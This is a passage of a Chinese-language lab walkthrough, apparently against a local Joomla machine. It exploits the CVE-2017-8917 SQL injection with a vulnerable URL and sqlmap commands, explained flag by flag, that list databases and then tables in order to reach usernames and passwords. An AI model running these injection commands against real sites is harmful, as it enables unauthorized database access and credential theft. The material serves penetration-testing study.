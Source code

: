 ```
# CVE :  CVE-2017-8917

URL Vulnerable: 
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

我们可以清楚的看到，该漏洞是一个编号为【[CVE-2017-8917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917.html)】的SQL注入漏洞，并给出了两种注入方法

---



## 漏洞验证

> **根据searchsploit提供的注入方法，尝试使用sqlmap进行注入**

```sh
sqlmap -u "http://192.168.1.4/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]  

#该命令的目的是在给定的 URL 中检测 SQL 注入漏洞，并尝试获取目标数据库的名称。
#option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml"`：指定了目标网站的 URL
#--risk=3`：设置扫描的风险级别。`--risk` 参数用于指定 SQL 注入检测的风险级别，取值范围是 0-3，3 表示最高风险级别。
#--level=5`：设置扫描的深度级别。`--level` 参数用于指定 SQL 注入检测的深度级别，取值范围是 1-5，5 表示最高深度级别。
#--random-agent`：使用随机的 User-Agent 字符串，以尝试绕过一些基于 User-Agent 的检测或防护机制。
#--dbs`：告诉 SQLMap 扫描目标以获取数据库列表。`--dbs` 参数用于指示 SQLMap 在发现漏洞后尝试检索目标数据库的名称。
#-p list[fullordering]`：指定要测试的参数。`-p` 参数用于指定要测试的参数名称，这个参数被认为是潜在的注入点。
```

![image-20240405151919676](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405151919676.png)

可以看到，本注入语句成功获得五个库名, 由此可知，该【[CVE-2017-8917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917.html)】的SQL注入漏洞真实存在；



## 漏洞利用

### 获取用户名和密码

在验证阶段我们已经获取了库名，我们选取joomladb数据库，查询该库下的所有表

```sh
sqlmap -u "http://192.168.1.4/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20240405152051125](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240405152051125.png)
